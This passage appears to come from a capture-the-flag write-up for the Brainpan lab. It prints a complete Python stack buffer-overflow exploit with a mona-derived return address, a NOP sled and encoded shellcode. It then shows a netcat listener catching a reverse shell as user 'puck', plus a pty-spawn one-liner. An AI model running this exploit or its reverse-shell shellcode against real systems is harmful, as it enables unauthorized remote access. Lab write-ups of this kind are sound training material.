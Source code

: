Add it to our payload and run:

```python title="thm-linux.py"
#!/usr/bin/env python3

import socket

ip = "10.10.94.62"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31" # found using mona
padding = "\x90" * 16
payload = (
"\xdb\xd8\xd9\x74\x24\xf4\x5a\xbe\x69\xb2\xd7\x92\x2b\xc9\xb1"
"\x12\x31\x72\x17\x03\x72\x17\x83\xab\xb6\x35\x67\x1a\x6c\x4e"
"\x6b\x0f\xd1\xe2\x06\xad\x5c\xe5\x67\xd7\x93\x66\x14\x4e\x9c"
"\x58\xd6\xf0\x95\xdf\x11\x98\x2f\x2b\xd5\x0b\x58\x29\x19\xab"
"\xc8\xa4\xf8\x1b\x8e\xe6\xab\x08\xfc\x04\xc5\x4f\xcf\x8b\x87"
"\xe7\xbe\xa4\x54\x9f\x56\x94\xb5\x3d\xce\x63\x2a\x93\x43\xfd"
"\x4c\xa3\x6f\x30\x0e"
)
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("buffer size:", len(buffer))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Setup listener on attack machine: `sudo rlwrap nc -lnvp 80`

Send payload `./thm-linux.py`

Success:

```bash
└─$ sudo rlwrap nc -lnvp 80                                                                                     1 ⨯
listening on [any] 80 ...
connect to [10.11.55.83] from (UNKNOWN) [10.10.73.41] 42786
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
puck@brainpan:/home/puck$ 
```

:::info upgrade your shell

